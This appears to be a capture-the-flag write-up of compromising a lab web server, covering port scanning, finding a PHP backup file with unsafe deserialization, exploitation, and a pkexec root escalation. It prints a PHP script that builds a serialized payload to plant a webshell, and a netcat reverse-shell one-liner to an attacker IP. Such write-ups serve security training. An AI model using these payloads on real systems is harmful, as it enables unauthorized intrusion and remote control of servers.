# Port Scanning
```bash
❯ rustscan -a 10.48.146.162 -- -A

Open 10.48.146.162:22
Open 10.48.146.162:80

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:ee:1e:ba:07:2a:54:69:ff:11:e3:49:d7:db:a9:01 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDar9Wvsxi0NTtlrjfNnap7o6OD9e/Eug2nZF18xx17tNZC/iVn5eByde27ZzR4Gf10FwleJzW5B7ieEThO3Ry5/kMZYbobY2nI8F3s20R8+sb6IdWDL4NIkFPqsDudH3LORxECx0DtwNdqgMgqeh/fCys1BzU2v2MvP5alraQmX81h1AMDQPTo9nDHEJ6bc4Tt5NyoMZZSUXDfJRutsmt969AROoyDsoJOrkwdRUmYHrPqA5fvLtWsWXHYKGsWOPZSe0HIq4wUthMf65RQynFQRwErrJlQmOIKjMV9XkmWQ8c/DqA1h7xKtbfeUYa9nEfhO4HoSkwS0lCErj+l9p8h
|   256 8b:2a:8f:d8:40:95:33:d5:fa:7a:40:6a:7f:29:e4:03 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBA7IA5s8W9jhxGAF1s4Q4BNSu1A52E+rSyFGBYdecgcJJ/sNZ3uL6sjZEsAfJG83m22c0HgoePkuWrkdK2oRnbs=
|   256 65:59:e4:40:2a:c2:d7:05:77:b3:af:60:da:cd:fc:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGXyfw0mC4ho9k8bd+n0BpaYrda6qT2eI1pi8TBYXKMb
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.10 - 3.13 (96%), Linux 4.15 - 5.19 (95%), Linux 4.15 (93%), Linux 3.13 (93%), Linux 5.4 (93%), Android 9 - 11 (Linux 4.9 - 4.14) (92%), Linux 3.10 (92%), Linux 3.2 (92%), Linux 3.4 - 3.10 (92%), Linux 3.7 - 4.19 (92%)
No exact OS matches for host (test conditions non-ideal).
```
So I first visited the web page but found nothing. Just simple Ubuntu apache server page. So I perform directory bruteforcing. <br/>
 <br/>
Found these interesting things. In the backup directory I found `index.php.bak`.  <br/>
 <br/>
Downloaded it and found the vulnerable point. <br/>
 <br/>
```php
$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);
```
The running `index.php` page is following. <br/>
 <br/>
Using the following script I generated webshell the payload. <br/>
```php
<?php
// payload.php - Run this locally
class FormSubmit {
    public $form_file = 'shell.php';
    public $message = '<?php system($_GET["cmd"]); ?>';
}

$payload = serialize(new FormSubmit());
echo "Payload: " . urlencode($payload) . "\n";
echo "Full URL: ?debug=" . urlencode($payload) . "\n";
?>
```
 <br/>
Copping the url section and pasted it to the url bar after `index.php`. Then I visited `http://<target_ip/shell.php?cmd=id>`. And found the following. <br/>
 <br/>
In burpsuite: `ls -la` <br/>
 <br/>
Then Using the following payload I got the reverse shell. 
```txt
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <attacker_ip> 4444 >/tmp/f
```
 <br/>
 <br/>
# Privilege Escalation
I ran `linpeas.sh` and found that it has pkexec vulnerability.  <br/>
 <br/>
Abusing this I got root shell. <br/>
 <br/>